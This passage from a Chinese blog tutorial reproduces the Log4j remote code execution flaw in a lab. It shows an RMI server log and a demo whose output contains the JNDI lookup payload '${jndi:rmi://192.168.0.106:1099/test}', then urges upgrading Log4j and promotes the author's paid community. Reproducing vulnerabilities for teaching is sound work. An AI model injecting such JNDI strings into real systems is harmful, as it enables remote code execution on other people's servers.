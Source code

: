 至此，log4j-rmi模块的代码就改造完成了。

### 第二次运行程序模拟真实场景

（1）启动log4j-rmi模块下的RmiServer类，会打印出如下日志信息。

```bash
RMI Listener 1099 port
```

说明RMI服务启动成功，并监听了1099端口。

（2）运行log4j-website模块下的Log4jDemo类，输出的日志信息如下所示。

```bash
执行代码
13:04:22.542 [main] INFO  io.binghe.log4j.Log4jDemo - 输出的信息是:${jndi:rmi://192.168.0.106:1099/test}
```

可以看到，这次在log4j-website模块下的Log4jDemo程序的命令行打印出了从Nginx中加载的RmiObj类的静态代码块中输出的信息，而Nginx中的RmiObj类其实就是骇客本地的RmiObj类。

至此，我们再次重现了Log4j的重大漏洞。

### 漏洞真实场景分析

这里真实场景分析中，远程站点服务器的执行流程与重现log4j-all漏洞中漏洞具体场景分析下的远程站点服务器执行流程相同，都是如下图所示。

![2022-05-30-006](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-006.png)

而骇客本地RMI服务程序的执行流程稍有不同，这里的流程如下图所示。

![2022-05-30-016](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-016.png)

理解起来也比较简单，这里，我就不再赘述了。

## 写在最后

这次的Log4j远程代码执行漏洞威胁很大，不仅很多开源软件受其影响，而且还有很多服务器也深受其害。所以，各位小伙伴们如果在项目中使用的Log4j的版本小于等于2.14.1，那就尽快升级到更高版本的Log4j吧，升级Log4j刻不容缓，大家赶紧行动起来。

## 关于星球

最近，冰河创建了【冰河技术】知识星球，《[SpringCloud Alibaba实战](https://mp.weixin.qq.com/mp/appmsgalbum?__biz=Mzg4MjU0OTM1OA==&action=getalbum&album_id=2337104419664084992&scene=173&from_msgid=2247500214&from_itemidx=1&count=3&nolastread=1#wechat_redirect)》专栏的源码获取方式会放到知识星球中，同时在微信上会创建专门的知识星球群，冰河会在知识星球上和星球群里解答球友的提问。

今天，【冰河技术】知识星球再开放200张优惠券，还没上车的小伙伴赶紧啦，再不上车就跟不上啦！！

### 星球提供的服务

冰河整理了星球提供的一些服务，如下所示。

加入星球，你将获得： 

1.学习SpringCloud Alibaba实战项目—从零开发微服务项目 

